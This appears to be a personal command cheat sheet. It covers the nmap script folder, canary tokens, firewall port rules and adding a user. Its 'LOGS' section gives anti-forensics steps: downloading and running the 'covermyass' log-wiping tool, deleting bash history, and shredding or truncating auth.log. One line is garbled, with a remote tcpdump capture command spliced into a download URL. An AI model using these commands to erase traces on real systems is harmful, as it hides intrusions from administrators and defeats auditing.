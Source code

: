 
## NMAP SCRIPT LOCATION 
ls -al /usr/share/nmap/scripts/ 

## CANARY TOKENS
canarytokens.com/generate 

### LOGS ##### 
kill -9 $$ ## exits the terminal without saving history 
wget https://raw.githussh -T frank@192.168.1.131 "sudo timeout 60 tcpdump -i wlan0 \"not port 22 and not host localhost\" -w - " > tcp_dump1.pcap
busercontent.com/sundowndev/covermyass/master/covermyass
chmod +x covermyass
./covermyass
# BASH HISTORY 
cd /dev/shm/
rm /root/.bash_history 
## or edit the var $HISTSIZE and $HISTFILESIZE 
# AUTH-LOG FILES 
cd /var/log
sudo rm auth.log 
shred -zu /var/log/auth.log ## safely overwrite logs with 0's and 1's 
truncate -s 0 /var/log/auth.log 


------------------------------------------------------ [PORT-MAN]  ------------------------------------------------------

UBUNTU - NGINX - FIREWALL
sudo ufw status
sudo ufw allow 80/udp
sudo ufw allow 80/tcp
sudo iptables -A INPUT -p tcp --dport 80 -j ACCEPT
sudo ufw allow 9999/udp
sudo ufw allow 9999/tcp
sudo iptables -A INPUT -p tcp --dport 9999 -j ACCEPT
sudo iptables -A INPUT -p udp --dport 9999 -j ACCEPT
sudo ufw allow 20/tcp
sudo ufw allow 21/tcp
sudo ufw allow 990/tcp
sudo ufw allow 40000:50000/tcp
sudo ufw status


## To add new user 
useradd -r user2 
